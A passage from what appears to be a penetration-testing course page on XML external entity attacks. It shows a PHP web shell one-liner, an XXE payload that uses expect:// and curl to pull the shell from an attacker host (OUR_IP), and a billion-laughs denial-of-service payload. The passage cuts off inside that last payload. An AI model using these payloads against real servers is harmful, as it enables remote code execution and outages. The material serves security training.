```shell-session
$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
$ sudo python3 -m http.server 80
```

Now, we can use the following XML code to execute a `curl` command that downloads our web shell into the remote server:

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

{% hint style="info" %}
**Note:** We replaced all spaces in the above XML code with `$IFS`, to avoid breaking the XML syntax. Furthermore, many other characters like `|`, `>`, and `{` may break the code, so we should avoid using them.
{% endhint %}

Once we send the request, we should receive a request on our machine for the `shell.php` file, after which we can interact with the web shell on the remote server for code execution.

{% hint style="info" %}
**Note:** The expect module is not enabled/installed by default on modern PHP servers, so this attack may not always work. This is why XXE is usually used to disclose sensitive local files and source code, which may reveal additional vulnerabilities or ways to gain code execution.
{% endhint %}

## Other XXE Attacks

Another common attack often carried out through XXE vulnerabilities is SSRF exploitation, which is used to enumerate locally open ports and access their pages, among other restricted web pages, through the XXE vulnerability. The [Server-Side Attacks](https://academy.hackthebox.com/course/preview/server-side-attacks) module thoroughly covers SSRF, and the same techniques can be carried with XXE attacks.

Finally, one common use of XXE attacks is causing a Denial of Service (DOS) to the hosting web server, with the use the following payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
```